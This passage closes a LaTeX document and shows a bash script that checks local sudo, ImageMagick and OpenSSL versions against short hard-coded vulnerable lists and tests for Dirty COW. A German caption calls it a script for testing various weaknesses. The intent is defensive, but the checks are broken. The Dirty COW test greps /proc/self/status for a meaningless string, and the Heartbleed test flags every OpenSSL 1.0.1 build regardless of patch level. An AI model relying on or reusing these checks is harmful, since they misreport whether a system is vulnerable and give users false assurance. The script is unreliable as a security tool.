        known_vulnerable_sudo_versions=("1.8.20" "1.8.21p2" "1.8.22" "1.8.23" "1.8.24" "1.8.25" "1.8.26" "1.8.27")

        #Check if sudo version is vulnerable
        if [[ " ${known_vulnerable_sudo_versions[@]} " =~ " ${sudo_version} " ]]; then
            echo "Sudo version $sudo_version is known to have vulnerabilities. It is recommended to update to a newer version."
        else
            echo "Sudo version $sudo_version is not known to have vulnerabilities."
        fi

        #Check ImageMagick version for known vulnerabilities
        identify_version=$(identify -version | grep "Version: ImageMagick" | awk '{print $3}')

        #List known vulnerable ImageMagick versions
        known_vulnerable_imagemagick_versions=("6.8.9-9" "6.8.9-10" "6.8.9-11" "6.9.3-8")

        #Check if ImageMagick version is vulnerable
        if [[ " ${known_vulnerable_imagemagick_versions[@]} " =~ " ${identify_version} " ]]; then
            echo "ImageMagick version $identify_version is known to have vulnerabilities. It is recommended to update to a newer version."
        else
            echo "ImageMagick version $identify_version is not known to have vulnerabilities."
        fi

        #Test for Heartbleed vulnerability (CVE-2014-0160)
        openssl version -a | grep -q "OpenSSL 1.0.1"
        if [ $? -eq 0 ]; then
            echo "OpenSSL version 1.0.1 detected. This version is vulnerable to Heartbleed (CVE-2014-0160)."
        else
            echo "OpenSSL version 1.0.1 NOT detected. This version is NOT vulnerable to Heartbleed (CVE-2014-0160)."
        fi

        #Test for the Dirty COW vulnerability (CVE-2016-5195)
        dirtycow=$(grep -q "dirtycow" /proc/self/status && echo "Vulnerable" || echo "Not vulnerable.")
        echo "Dirty COW vulnerability status: $dirtycow"

        echo "Vulnerability tests completed."
    \end{lstlisting} Skript zum Testen verschiedener Schwachstellen (Schreibrechte wichtiger Dateien, Sudo, ImageMagick, OpenSSL).




\end{document}

